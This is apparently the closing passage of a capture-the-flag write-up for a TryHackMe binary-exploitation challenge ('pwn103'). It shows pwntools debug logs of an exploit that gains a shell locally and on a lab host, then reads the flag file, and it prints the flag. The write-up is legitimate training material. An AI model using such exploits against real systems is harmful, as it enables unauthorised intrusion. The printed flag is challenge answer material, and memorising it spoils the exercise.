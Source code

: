```bash

👮  Admins only:

Welcome admin 😄
$ whoami
[DEBUG] Sent 0x7 bytes:
    b'whoami\n'
[DEBUG] Received 0x3 bytes:
    b'ap\n'
ap

```

Works!

## Remote Exploitation

The same script runs the exploit remotely.

```bash
$ ./exploit
...
👮  Admins only:

Welcome admin 😄
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x19 bytes:
    b'flag.txt\n'
    b'pwn103\n'
    b'pwn103.c\n'
flag.txt
pwn103
pwn103.c
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x13 bytes:
    b'THM{w3lC0m3_4Dm1N}\n'
THM{w3lC0m3_4Dm1N}
$ 
[*] Closed connection to 10.10.79.209 port 9003
```

Flag captured.

---

[https://github.com/apaonessaa](https://github.com/apaonessaa)
